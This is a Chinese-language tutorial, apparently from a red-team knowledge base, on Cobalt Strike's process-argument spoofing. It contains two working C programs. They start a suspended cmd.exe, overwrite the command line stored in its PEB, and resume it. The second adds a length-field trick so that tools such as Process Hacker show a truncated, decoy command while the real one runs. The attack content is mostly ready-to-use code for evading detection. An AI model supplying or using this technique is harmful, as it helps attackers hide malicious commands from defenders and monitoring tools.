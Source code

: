 # CobaltStrike Argue伪装命令

## 简介

在Cobalt Strike 3.13版本的时候引入了一个进程参数欺骗的技术\(虽然现在都4.0了\)，可以使进程在创建时记录的参数与实际运行时不同，windows系统从peb的commandline中读取参数，并对参数做相应的处理，在线程未初始化完成前，我们可以修改参数，并让进程执行它，在操作上几乎与命令行伪装一样，只是有一些流程上的不同，这里不过多赘述详见[伪装命令行规避检测](fake-commandline.md)。



## 利用流程

1. 创建一个挂起的cmd或powershell进程。
2. 读取peb内的RTL\_USER\_PROCESS\_PARAMETERS结构体。
3. 定位到commandline的buffer指针。
4. 修改buffer的存放的commandline。

## 代码实现

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir";
	//.&& whoami / priv && pause"
	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

执行了修改后的参数: 

![](../.gitbook/assets/image%20%28112%29.png)

## 扩展利用

前面我们说了process hacker和process explorer等进程监视工具会从peb内直接读取commandline的内容，这时就有小朋友要问了，那我们这么做不是会被发现吗\(不皮了不皮了\)。

实际上这么做确实会被此类工具发现明显异常，但由于操作系统读取数据和此类工具读取数据存在一定差异，我们可以利用这样的读取差异来隐藏我们真实的参数。

由于进程监视工具\(啃过源码\)会先读取commandline的length，根据length的值来读取commandline.buffer的内容，而操作系统则由是通过'\x00'来判断字符串是否结束。

这时我们可以写入一个比length更长的命令让监视工具的读取不完全，那么我们就可以在此类工具中伪装commandline。

### 代码

```text
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>


typedef DWORD(*pNtQueryInformationProcess) (HANDLE, PROCESSINFOCLASS, PVOID, ULONG, PULONG);

int main()
{

	ULONG lenght = 0;
	HMODULE hModule;
	PROCESS_BASIC_INFORMATION ProcessInformation;
	pNtQueryInformationProcess NtQueryInformationProcess;
	wchar_t CommandLine[] = L"C:\\Windows\\system32\\cmd.exe /c dir . && whoami /priv && pause";

	wchar_t CurrentDirectory[] = L"C:\\Windows\\system32\\";

	hModule = LoadLibraryA("ntdll.dll");

	STARTUPINFOA si = { 0 };
	si.cb = sizeof(si);
	PROCESS_INFORMATION pi = { 0 };

	CreateProcessA(NULL, (LPSTR)"C:\\Windows\\system32\\cmd.exe /c whoami", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

	NtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(hModule, "NtQueryInformationProcess");
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &ProcessInformation, sizeof(ProcessInformation), &lenght);
	
	RTL_USER_PROCESS_PARAMETERS rupp = { 0 };
	PEB peb = { 0 };

	ReadProcessMemory(pi.hProcess, ProcessInformation.PebBaseAddress, &peb, sizeof(peb), NULL);
	ReadProcessMemory(
		pi.hProcess,
		peb.ProcessParameters,
		&rupp,
		sizeof(RTL_USER_PROCESS_PARAMETERS)
		, NULL);

	WriteProcessMemory(pi.hProcess, (LPVOID)rupp.CommandLine.Buffer, CommandLine, sizeof(CommandLine), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

### 实现效果

![](../.gitbook/assets/image%20%28111%29.png)

![](../.gitbook/assets/image%20%28109%29.png)

![](../.gitbook/assets/image%20%28110%29.png)





